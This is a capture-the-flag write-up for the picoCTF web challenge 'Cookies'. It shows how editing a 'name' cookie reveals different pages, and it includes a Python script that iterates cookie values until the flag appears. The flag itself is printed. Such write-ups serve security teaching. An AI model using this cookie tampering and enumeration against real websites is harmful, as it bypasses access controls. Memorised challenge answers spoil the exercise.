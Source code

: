 # Cookies

**Author:** [yairp03](https://github.com/yairp03)  
**Category:** Web Exploitation  
**Points:** 40

# Challenge

## Description

Who doesn't love cookies? Try to figure out the best one. http://mercury.picoctf.net:21485/

# Solution

The challenge is called `Cookies` so we can assume that we need to use cookies to solve it. We can view and edit the cookies in many ways, here i'll use the [EditThisCookie](/Guides/Tools/EditThisCookie.md) extension for chrome.

Viewing the cookies we can see that there is a cookie called `name` with the value `-1`. The website has a textbox with a placeholder that says `snickerdoodle`, and a search button. Writing `snickerdoodle` in the textbox and clicking the search button gives us another page, with the text `I love snickerdoodle cookies!`.

Checking our `name` cookie, we can see that it has changed to `0`. Let's change it to `1`, refresh the page and see what happens. We get the same page as before, but now the text is `I love chocolate chip cookies!`. We can continue to increment the value of the cookie and get more cookie names, and we can assume that eventually we'll get the flag.

We can't know how many times we need to increment the cookie, so we can use python's [requests](https://pypi.org/project/requests/) module to automate the process:

```python
import requests

URL = "http://mercury.picoctf.net:21485/"
BEFORE_RESULT = '<p style="text-align:center; font-size:30px;">'
AFTER_RESULT = '</p>'

curr_cookie = ''
i = -1
while 'picoCTF' not in curr_cookie:
    i += 1
    res = requests.get(URL, cookies={'name': str(i)})
    curr_cookie = res.text[res.text.find(BEFORE_RESULT) + len(BEFORE_RESULT):]
    curr_cookie = curr_cookie[:curr_cookie.find(AFTER_RESULT)]
    print(i, curr_cookie)

flag = curr_cookie[curr_cookie.find('picoCTF'):curr_cookie.find('}') + 1]
print('Flag: ', flag)
```

And finally, after 18 cookies, we get the flag:

```bash
$ python3 solve.py
0 <b>I love snickerdoodle cookies!</b>
1 <b>I love chocolate chip cookies!</b>
2 <b>I love oatmeal raisin cookies!</b>
...
17 <b>I love wafer cookies!</b>
18 <b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_94190c8a}</code>
Flag:  picoCTF{3v3ry1_l0v3s_c00k135_94190c8a}
```

**The Flag:** `picoCTF{3v3ry1_l0v3s_c00k135_94190c8a}`
